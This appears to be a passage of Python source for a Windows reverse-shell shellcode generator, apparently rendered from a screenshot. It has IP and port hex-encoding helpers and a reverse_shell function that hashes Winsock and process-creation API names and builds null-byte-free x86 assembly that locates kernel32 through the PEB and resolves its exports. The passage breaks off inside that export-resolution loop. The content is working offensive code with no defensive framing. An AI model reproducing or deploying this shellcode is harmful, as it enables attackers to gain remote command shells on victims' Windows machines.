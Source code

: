 ```py
        ip_addr_hex.append(format(int(block), "02x"))
    ip_addr_hex.reverse()
    return "0x" + "".join(ip_addr_hex)


def hex_port(port):
    port_hex = format(int(port), "04x")
    return "0x" + str(port_hex[2:4]) + str(port_hex[0:2])

def reverse_shell(ip_address, port):
    push_terminateprocess_hash = push_function_hash("TerminateProcess")
    push_loadlibrarya_hash = push_function_hash("LoadLibraryA")
    push_createprocessa_hash = push_function_hash("CreateProcessA")
    push_wsastartup_hash = push_function_hash("WSAStartup")
    push_wsasocketa_hash = push_function_hash("WSASocketA")
    push_wsaconnect_hash = push_function_hash("WSAConnect")

    CODE = [
            "start:                                  ",
            "   mov ebp, esp                        ;",
            "   add esp, 0xfffffdf0                 ;",  #   Avoid NULL bytes

            "find_kernel32:                          ",
            "   xor ecx, ecx                        ;",  #   ECX = 0
            "   mov esi, fs:[ecx+0x30]              ;",  #   ESI = &(PEB)
            "   mov esi, [esi+0x0C]                 ;",  #   ESI = PEB->Ldr
            "   mov esi, [esi+0x1C]                 ;",  #   ESI = PEB->Ldr.InInitOrder

            "next_module:                            ",
            "   mov ebx, [esi+0x8]                  ;",  #   EBX = InInitOrder[x].base_address
            "   mov edi, [esi+0x20]                 ;",  #   EDI = InInitOrder[x].module_name
            "   mov esi, [esi]                      ;",  #   ESI = InInitOrder[x].flink
            "   cmp [edi+12*2], cx                  ;",  #   module_name[12] == 0x00 ?
            "   jne next_module                     ;",  #   jump to the next module

            "find_function_shorten:                  ",
            "   jmp find_function_shorten_bnc       ;",  #   Short jump

            "find_function_ret:                      ",
            "   pop esi                             ;",  #   POP the return address from the stack
            "   mov [ebp+0x04], esi                 ;",  #   Save find_function address for later usage
            "   jmp resolve_symbols_kernel32        ;",

            "find_function_shorten_bnc:              ",
            "   call find_function_ret              ;",  #   Relative CALL with negative offset

            "find_function:                          ",
            "   pushad                              ;",  #   Save all registers
            "   mov eax, [ebx+0x3c]                 ;",  #   Offset to PE Signature
            "   mov edi, [ebx+eax+0x78]             ;",  #   Export Table Directory RVA
            "   add edi, ebx                        ;",  #   Export Table Directory VMA
            "   mov ecx, [edi+0x18]                 ;",  #   NumberOfNames
            "   mov eax, [edi+0x20]                 ;",  #   AddressOfNames RVA
            "   add eax, ebx                        ;",  #   AddressOfNames VMA
            "   mov [ebp-4], eax                    ;",  #   Save AddressOfNames VMA

            "find_function_loop:                     ",
            "   jecxz find_function_finished        ;",  #   jump if ECX == 0
            "   dec ecx                             ;",  #   Decrement names counter
            "   mov eax, [ebp-4]                    ;",  #   Restore AddressOfNames VMA
            "   mov esi, [eax+ecx*4]                ;",  #   RVA of the symbol name
```